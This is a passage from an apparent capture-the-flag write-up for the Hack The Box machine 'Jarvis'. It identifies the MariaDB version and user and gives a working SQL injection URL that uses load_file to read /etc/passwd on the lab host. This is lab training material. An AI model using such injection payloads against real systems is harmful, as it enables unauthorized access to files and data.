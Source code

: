 ![](/assets/images/htb-writeup-jarvis/version.png)

The database is `MariaDB` and its version is `10.1.37-MariaDB-0+deb9u1` and we're running as `DBadmin` user.
Let's check if we can read files using the `load_files()` function.
```
http://10.10.10.143/room.php?cod=-1 UNION SELECT 1,load_file('/etc/passwd'),3,4,5,6,7
```
![](/assets/images/htb-writeup-jarvis/file-read.png)
